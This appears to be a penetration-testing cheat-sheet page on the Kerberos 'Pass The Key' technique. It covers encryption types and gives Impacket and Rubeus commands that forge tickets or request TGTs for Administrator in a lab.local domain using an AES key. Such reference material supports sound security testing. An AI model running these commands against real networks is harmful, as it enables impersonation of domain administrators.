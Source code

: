 # Hash - Pass The Key

Pass The Key allows attackers to gain access to systems by using a valid session key instead of the user's password or NTLM hash. This technique is related to other credential-based attacks like Pass The Hash (PTH) and Pass The Ticket (PTT) but specifically uses session keys to authenticate.

Pre-authentication requires the requesting user to provide a secret key, which is derived from their password and may use encryption algorithms such as DES, RC4, AES128, or AES256.

* **RC4**: ARCFOUR-HMAC-MD5 (23), in this format, this is the NTLM hash, go to **Pass The Hash** to use it directly and **Over Pass The Hash** page to request a TGT from it.
* **DES**: DES3-CBC-SHA1 (16), should not be used anymore and have been deprecated since 2018 ([RFC 8429](https://www.rfc-editor.org/rfc/rfc8429)).
* **AES128**: AES128-CTS-HMAC-SHA1-96 (17), both AES encryption algorithms can be used with Impacket and Rubeus tools.
* **AES256**: AES256-CTS-HMAC-SHA1-96 (18)

In the past, there were more encryptions methods, that have now been deprecated.

| enctype                    | weak?| krb5   | Windows |
| -------------------------- | ---- | ------ | ------- |  
| des-cbc-crc                | weak | <1.18  | >=2000  |
| des-cbc-md4                | weak | <1.18  | ?       |
| des-cbc-md5                | weak | <1.18  | >=2000  |
| des3-cbc-sha1              |    | >=1.1  | none    |
| arcfour-hmac               |    | >=1.3  | >=2000  |
| arcfour-hmac-exp           | weak | >=1.3  | >=2000  |
| aes128-cts-hmac-sha1-96    |    | >=1.3  | >=Vista |
| aes256-cts-hmac-sha1-96  |      | >=1.3  | >=Vista |
| aes128-cts-hmac-sha256-128 |    | >=1.15 | none    |
| aes256-cts-hmac-sha384-192 |    | >=1.15 | none    |
| camellia128-cts-cmac    |      | >=1.9  | none    |
| camellia256-cts-cmac    |      | >=1.9  | none    |

Microsoft Windows releases Windows 7 and later disable single-DES enctypes by default.

Either use the AES key to generate a ticket with `ticketer`, or request a new TGT using `getTGT.py` script from Impacket.

## Generate a new ticket

* [fortra/impacket/ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)

    ```powershell
    impacket-ticketer -aesKey 2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 -domain lab.local Administrator -domain-sid S-1-5-21-2218639424-46377867-3078535060
    ```

## Request a TGT

* [fortra/impacket/getTGT.py](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)

    ```powershell
    impacket-getTGT -aesKey 2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 lab.local
    ```

* [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

    ```powershell
    .\Rubeus.exe asktgt /user:Administrator /aes128 bc09f84dcb4eabccb981a9f265035a72 /ptt
    .\Rubeus.exe asktgt /user:Administrator /aes256:2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 /opsec /ptt
    ```

## References

* [MIT Kerberos Documentation - Encryption types](https://web.mit.edu/kerberos/krb5-1.18/doc/admin/enctypes.html)
